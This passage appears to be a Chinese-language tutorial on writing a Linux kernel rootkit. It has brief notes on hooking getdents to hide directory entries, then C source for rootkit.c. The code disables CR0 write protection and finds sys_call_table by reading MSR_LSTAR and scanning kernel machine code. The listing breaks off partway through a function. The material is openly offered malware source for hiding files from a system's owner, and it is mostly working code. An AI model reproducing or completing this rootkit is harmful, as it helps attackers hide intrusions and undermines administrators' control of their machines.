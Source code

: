 * `getdents` 跑完後會把結果存到 `dirp` 裡面，那我們就遍歷 `dirp` 把要隱藏的丟掉就好了
* kernel 4.x.x 的參數是放在 stack 傳的，但 kernel 5.x.x 多包了一層 `do_syscall_64`，參數傳遞變成是透過 `struct pt_regs *regs` 這個結構去傳

```c rootkit.c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kallsyms.h>
#include <linux/syscalls.h>

MODULE_LICENSE("GPL");

struct linux_dirent {
    unsigned long  d_ino;     /* Inode number */
    unsigned long  d_off;     /* Offset to next linux_dirent */
    unsigned short d_reclen;  /* Length of this linux_dirent */
    char           d_name[];  /* Filename (null-terminated) */
};

void **sys_call_table;

int (*original_getdents) (struct pt_regs *regs);

void writable_unlock (void) {
    unsigned long val = read_cr0() & (~X86_CR0_WP);
    asm volatile("mov %0,%%cr0": "+r" (val));
}

void writable_lock (void) {
    unsigned long val = read_cr0() | X86_CR0_WP;
    asm volatile("mov %0,%%cr0": "+r" (val));
}

uint8_t *find (uint8_t *a, uint8_t *b, size_t len) {
    for (uint8_t *ptr = a, i = 0; i < 500; i++, ptr++) {
        if (!strncmp(ptr, b, len)) {
            return ptr;
        }
    }
    return 0;
}

uint8_t *get_syscalltable (void) {
    int lo, hi;
    asm volatile("rdmsr" : "=a" (lo), "=d" (hi) : "c" (MSR_LSTAR));
    uint8_t *entry_SYSCALL_64 = (uint8_t *)(((uint64_t)hi << 32) | lo);

    uint8_t *ptr;

    uint8_t do_syscall_64_inst[7] = {
        0x48, 0x89, 0xc7, // mov rdi, rax
        0x48, 0x89, 0xe6, // mov rsi, rsp
        0xe8,             // call do_syscall_64
    };
    ptr = find(entry_SYSCALL_64, do_syscall_64_inst, 7);
    uint8_t *do_syscall_64 = (uint8_t *)(ptr + 11 + ((uint64_t)0xffffffff00000000 | *(uint32_t *)(ptr + 7)));

    uint8_t sys_call_table_inst[4] = {
        0x48, 0x8b, 0x04, 0xfd // mov rax, QWORD PTR [rdi*8-?]
    };
    ptr = find(do_syscall_64, sys_call_table_inst, 4);
    uint8_t *sys_call_table = (uint8_t *)((uint64_t)0xffffffff00000000 | *(uint32_t *)(ptr + 4));

```